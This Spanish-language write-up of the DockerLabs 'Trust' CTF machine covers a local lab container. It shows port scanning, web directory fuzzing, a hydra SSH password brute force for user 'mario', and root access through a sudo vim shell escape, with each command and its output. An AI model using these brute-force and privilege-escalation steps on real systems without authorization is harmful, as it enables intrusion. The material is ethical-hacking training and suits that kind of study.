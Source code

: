```yaml
---
title: CTF-DockerLabs-Trust
published: true
---
```


## WriteUps maquina Trust de DockerLabs

---
tags:
  - CTF
  - estado/completado
  - plataforma: [DockerLabs]
  - dificultad: Muy fácil
  - autor: [ElPinguinoDeMario]

# Datos

[!INFO] Trust
>  **Nombre:** Trust
>  **SO:** Linux
>  **Dificultad:** Muy fácil
>  **Enlace:** [Dockerlabs](https://dockerlabs.es/)


[!TODO] Objetivo
> 🚩Ingresar a la maquina como algún usuario.
> 🚩Elevar privilegios una vez obtenido el acceso.

El primer paso consiste en iniciar la máquina, lo cual es tan sencillo como ejecutar el siguiente comando después de haber descargado la maquina:

![dockerlabsTrust.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/dockerlabsTrust.png)

# Reconocimiento

> Una vez iniciada la maquina, el mismo script de inicio me da la dirección IP a lo cual procedo a realizar un escaneo de puertos de la maquina y el resultado es el siguiente:


```bash
└─# nmap 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-21 19:14 EDT
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```

Al darme cuenta que existe el `puerto 80` abierto, procedo a visitar desde el navegador la dirección IP de la maquina y encuentro una pagina por defecto de apache: `Apache2 Debian Default Page,` lo próximo que hago es ver su código fuente y no encuentro nada fuera de la común. 

# Fuzzing Web

> El siguiente paso que procedo a realizar es un fuzzing web puesto que tengo un servidor web corriendo en la maquina, así que utilizo `dirbuster` y el resultado es el siguiente:

```bash
└─# dirbuster 
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /icons/ - 403
Dir found: /icons/small/ - 403
File found: /secret.php - 200
Dir found: /server-status/ - 403
DirBuster Stopped
```

Puedo ver en el resultado que existe un archivo llamado `secret.php` que al visitarlo me muestra:

![SecretTrustDockerlabs.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/SecretTrustDockerlabs.png)

En su código fuente de la pagina, no me muestra nada interesante, pero recordando que existe el `sevicio ssh en el puerto 22` utilizo el nombre de usuario `mario` para realizar fuerza bruta.

# Fuerza bruta SSH

> Ya que la web no nos da mucha información, pero si proporciona un posible usuario, procedo a utilizar `hydra` para hacer un ataque de fuerza bruta de la siguiente manera:


```bash
└─# hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: QnVzY2EgbGEgY2xhdmUgZW4gb3RybyBsYWRvCg==
1 of 1 target successfully completed, 1 valid password found
```

Y listo, con esto ya logro acceder por `ssh`, con el usuario `mario` y la contraseña encontrada.

`ssh mario@172.17.0.2`

# Escalada de privilegios

> Ahora que tengo acceso con el usuario `mario` procedo a escalar privilegio y para ello coloco primeramente: `sudo -l` lo que me da como resultado:

```bash
~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 30dc76e27a9d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 30dc76e27a9d:
    (ALL) /usr/bin/vim
```

# PWNED

Así que procedo ir a la web [GTFOBins](https://gtfobins.github.io/) para ver como elevar privilegios utilizando `vim` con `sudo` y el resultado es que si coloco el siguiente comando `vim -c ':!/bin/sh'` con la palabra `sudo` lograría ingresar con el usuario root.

![pwnedTrustDockerlabs.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/pwnedTrustDockerlabs.png)

# Comandos

[!IMPORTANT] Resumen de comandos utilizados
> `sudo bash auto_deploy.sh trust.tar`
> `nmap 172.17.0.2`
> `dirbuster`
> `hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh`
> `ssh mario@172.17.0.2`
> `sudo vim -c ':!/bin/sh'`


```
¡Que la fuerza del hacking ético nos acompañe! :)
```

|   |
|:--|
|   |